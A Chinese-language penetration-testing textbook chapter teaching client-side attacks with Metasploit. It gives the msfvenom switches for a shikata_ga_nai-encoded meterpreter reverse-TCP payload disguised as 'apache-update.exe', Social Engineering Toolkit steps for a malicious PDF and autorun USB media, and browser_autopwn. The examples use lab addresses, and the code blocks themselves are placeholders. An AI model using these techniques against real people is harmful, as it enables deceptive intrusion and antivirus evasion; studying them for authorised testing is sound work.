# 第六章：使用 Metasploit 进行客户端攻击

在上一章中，我们学习了如何使用各种工具，如 NMAP 和 Nessus，直接利用目标系统中的漏洞。然而，我们学到的技术只有在攻击者的系统和目标系统在同一网络中时才有用。在本章中，我们将概述用于利用完全位于不同网络中的系统的技术。本章将涵盖以下主题：

+   理解与客户端攻击相关的关键术语

+   使用 msfvenom 生成自定义有效载荷

+   使用社会工程工具包

+   使用`browser_autopwn`辅助模块进行高级基于浏览器的攻击

# 客户端攻击的需求

在上一章中，我们在目标系统中使用了 MS08_067net api 漏洞，并获得了对系统的完全管理员级访问权限。我们将 RHOST 变量的值配置为目标系统的 IP 地址。现在，只有在攻击者的系统和目标系统都在同一网络中时，攻击才会成功。（攻击者系统的 IP 地址为`192.168.44.134`，目标系统的 IP 地址为`192.168.44.129`）。

如下图所示，这种情况非常直接：

现在，考虑下面图中显示的情景。攻击者系统的 IP 地址是一个*公共*地址，他试图利用不在同一网络中的系统上的漏洞。请注意，目标系统在这种情况下具有私有 IP 地址（`10.11.1.56`）并且在互联网路由器（`88.43.21.9x`）后进行了 NAT。因此，攻击者的系统和目标系统之间没有直接的连接。通过将 RHOST 设置为`89.43.21.9`，攻击者只能到达互联网路由器，而无法到达所需的目标系统。在这种情况下，我们需要采用另一种攻击目标系统的方法，即客户端攻击：

# 什么是客户端攻击？

正如我们在前面的部分中看到的，如果目标系统不在攻击者的网络中，那么攻击者无法直接到达目标系统。在这种情况下，攻击者将不得不通过其他方式将有效载荷发送到目标系统。将有效载荷传递到目标系统的一些技术包括：

1.  攻击者托管一个包含所需恶意有效载荷的网站，并将其发送给受害者。

1.  攻击者将有效载荷嵌入到任何看似无害的文件中，如 DOC、PDF 或 XLS，并通过电子邮件发送给受害者。

1.  攻击者使用感染的媒体驱动器（如 USB 闪存驱动器、CD 或 DVD）发送有效载荷

现在，一旦有效载荷被发送到受害者，受害者需要执行所需的操作以触发有效载荷。一旦有效载荷被触发，它将连接到攻击者并为他提供所需的访问权限。大多数客户端攻击需要受害者执行某种操作或其他。

以下流程图总结了客户端攻击的工作原理：

# 什么是 Shellcode？

让我们把单词 shellcode 分解成 shell 和 code。简单来说，shellcode 是一种旨在给目标系统提供 shell 访问权限的代码。实际上，shellcode 可以做的远不止提供 shell 访问权限。这完全取决于 shellcode 中定义的操作。为了执行客户端攻击，我们需要选择精确的 shellcode 作为有效载荷的一部分。假设目标系统存在某种漏洞，攻击者可以编写一个 shellcode 来利用该漏洞。Shellcode 通常是十六进制编码的数据，可能看起来像这样：

[PRE0]

# 什么是反向 Shell？

反向 shell 是一种 shell 类型，执行后会连接到攻击者的系统，提供 shell 访问权限。

# 什么是绑定 shell？

绑定 shell 是一种 shell 类型，执行时会主动监听特定端口上的连接。攻击者可以连接到该端口以获取 shell 访问权限。

# 什么是编码器？

`msfvenom`实用程序将为我们生成有效载荷。然而，我们的有效载荷在目标系统上被杀毒软件检测到的可能性非常高。几乎所有行业领先的杀毒软件和安全软件程序都有签名来检测 Metasploit 有效载荷。如果我们的有效载荷被检测到，它将变得无用，我们的利用将失败。这正是编码器发挥作用的地方。编码器的工作是以一种不被杀毒软件或类似安全软件程序检测到的方式对生成的有效载荷进行混淆。

# msfvenom 实用程序

早些时候，Metasploit 框架提供了两个不同的实用程序，即`msfpayload`和`msfencode`。`msfpayload`用于生成指定格式的有效载荷，而`msfencode`用于使用各种算法对有效载荷进行编码和混淆。然而，Metasploit 框架的更新和最新版本将这两个实用程序合并为一个称为`msfvenom`的单一实用程序。

`msfvenom`实用程序可以在单个命令中生成有效载荷并对其进行编码。接下来我们将看到一些命令：

`msfvenom`是一个独立的实用程序，不需要同时运行`msfconsole`。

+   **列出有效载荷**：`msfvenom`实用程序支持所有标准的 Metasploit 有效载荷。我们可以使用`msfvenom --list payloads`命令列出所有可用的有效载荷，如下面的屏幕截图所示：



+   **列出编码器**：正如我们之前讨论的，`msfvenom`是一个单一的实用程序，可以生成以及编码有效载荷。它支持所有标准的 Metasploit 编码器。我们可以使用`msfvenom --list encoders`命令列出所有可用的编码器，如下面的屏幕截图所示：

+   **列出格式**：在生成有效载荷时，我们需要指示`msfvenom`实用程序我们需要将有效载荷生成为的文件格式。我们可以使用`msfvenom --help formats`命令查看所有支持的有效载荷输出格式：

+   **列出平台**：在生成有效载荷的同时，我们还需要指示`msfvenom`实用程序我们的有效载荷将在哪个平台上运行。我们可以使用`msfvenom --help-platforms`命令列出所有支持的平台：

# 使用 msfvenom 生成有效载荷

现在我们已经熟悉了`msfvenom`实用程序支持的所有有效载荷、编码器、格式和平台，让我们尝试生成一个示例有效载荷，如下面的屏幕截图所示：

以下表格显示了在前述`msfvenom`命令中使用的每个命令开关的详细说明：

| **开关** | **说明** |
| --- | --- |
| `-a x86` | 这里，生成的有效载荷将在 x86 架构上运行 |
| `--platform windows` | 这里，生成的有效载荷针对 Windows 平台 |
| `-p windows/meterpreter/reverse_tcp` | 这里，有效载荷是带有反向 TCP 的 meterpreter |
| `LHOST= 192.168.44.134` | 这里，攻击者系统的 IP 地址是`192.168.44.134` |
| `LPORT= 8080` | 这里，攻击者系统上监听的端口号是`8080` |
| `-e x86/shikata_ga_nai` | 这里，要使用的有效载荷编码器是`shikata_ga_nai` |
| `-f exe` | 这里，有效载荷的输出格式是`exe` |
| `-o /root/Desktop/apache-update.exe` | 这是生成的有效载荷将保存的路径 |

一旦我们生成了一个载荷，我们需要设置一个监听器，一旦在目标系统上执行了载荷，它将接受反向连接。以下命令将在 IP 地址`192.168.44.134`上的端口`8080`上启动一个 meterpreter 监听器：

[PRE1]

现在，我们已将载荷伪装成 Apache 更新发送给了我们的受害者。受害者需要执行它以完成利用：



一旦受害者执行`apache-update.exe`文件，我们就会在之前设置的监听器上获得一个活动的 meterpreter 会话（如下截图所示）：



另一种有趣的载荷格式是 VBA。如下截图所示，以 VBA 格式生成的载荷可以嵌入到任何 Word/Excel 文档的宏中：

# 使用 Metasploit 进行社会工程

社会工程是一种操纵人类行为的艺术，以绕过目标系统的安全控制。让我们以一个遵循非常严格安全实践的组织为例。所有系统都经过了加固和修补。最新的安全软件已部署。从技术上讲，攻击者很难找到并利用任何漏洞。然而，攻击者以某种方式设法与该组织的网络管理员交友，然后欺骗他透露管理员凭据。这是一个经典的例子，人类始终是安全链中最薄弱的环节。

默认情况下，Kali Linux 具有一个强大的社会工程工具，可以与 Metasploit 无缝集成，以发动有针对性的攻击。在 Kali Linux 中，社会工程工具包位于 Exploitation Tools | Social Engineering Toolkit 下。

# 生成恶意 PDF

打开社会工程工具包，并选择第一个选项 Spear-Phishing Attack Vectors，如下截图所示。然后选择第二个选项 Create a File Format Payload：



现在，选择选项 14 使用`Adobe util.printf() Buffer Overflow`利用：



选择选项 1，将 Windows Reverse TCP Shell 作为我们的利用载荷。然后，使用 LHOST 变量设置攻击者机器的 IP 地址（在本例中是`192.168.44.134`）和要监听的端口（在本例中是`443`）：



PDF 文件已在目录`/root/.set/`中生成。现在我们需要使用任何可用的通信媒介将其发送给我们的受害者。同时，我们还需要启动一个监听器，该监听器将接受来自目标的反向 meterpreter 连接。我们可以使用以下命令启动监听器：

[PRE2]

另一方面，我们的受害者收到了 PDF 文件，并尝试使用 Adobe Reader 打开它。Adobe Reader 崩溃了，但没有迹象表明受害者受到了威胁：



在监听端（攻击者系统上），我们得到了一个新的 meterpreter shell！我们可以在下面的截图中看到这一点：

# 创建传染性媒体驱动器

打开社会工程工具包，从主菜单中选择选项 3 传染性媒体生成器，如下截图所示。然后，选择选项 2 创建标准的 Metasploit 可执行文件：



现在，选择选项 1，将 Windows Shell Reverse TCP 作为我们的利用载荷。然后，在 LHOST 变量中设置 IP 地址和要监听的端口：

社会工程工具包将生成一个名为*autorun*的文件夹，位于`/root/.set/`。这个文件夹可以复制到 USB 闪存驱动器或 CD/DVD-ROM 中，以分发给我们的受害者。与此同时，我们还需要设置一个监听器（如前面部分所示），然后等待我们的受害者将受感染的媒体插入他的系统。

# 浏览器自动攻击

用于执行客户端攻击的另一个有趣的辅助模块是`browser_autopwn`。这个辅助模块按以下顺序工作：

1.  攻击者执行`browser_autopwn`辅助模块。

1.  攻击者在其系统上启动一个 Web 服务器，托管一个载荷。这个载荷可以通过特定的 URL 访问。

1.  攻击者向受害者发送特制的 URL。

1.  受害者试图打开 URL，这时载荷就会下载到他的系统上。

1.  如果受害者的浏览器存在漏洞，攻击成功，攻击者就会获得一个 meterpreter shell。

从`msfconsole`中，使用`use auxiliary/server/browser_autopwn`命令选择`browser_autopwn`模块，如下截图所示。然后，配置 LHOST 变量的值并运行辅助模块：



运行辅助模块将创建许多不同的利用/载荷组合实例，因为受害者可能使用任何类型的浏览器：



在目标系统上，我们的受害者打开了 Internet Explorer，并尝试访问恶意 URL `http://192.168.44.134:8080`（我们使用`browser_autopwn`辅助模块设置的）：



回到我们的 Metasploit 系统，我们的受害者一打开特制的 URL，我们就获得了一个 meterpreter shell：



# 总结

在本章中，我们学习了如何使用各种工具和技术来发动高级客户端攻击并绕过网络边界限制。

在下一章中，我们将深入探讨 Metasploit 在测试 Web 应用程序安全性方面的能力。

# 练习

您可以尝试以下练习：

+   熟悉`msfvenom`的各种参数和开关

+   探索社会工程工具包提供的各种其他社会工程技术
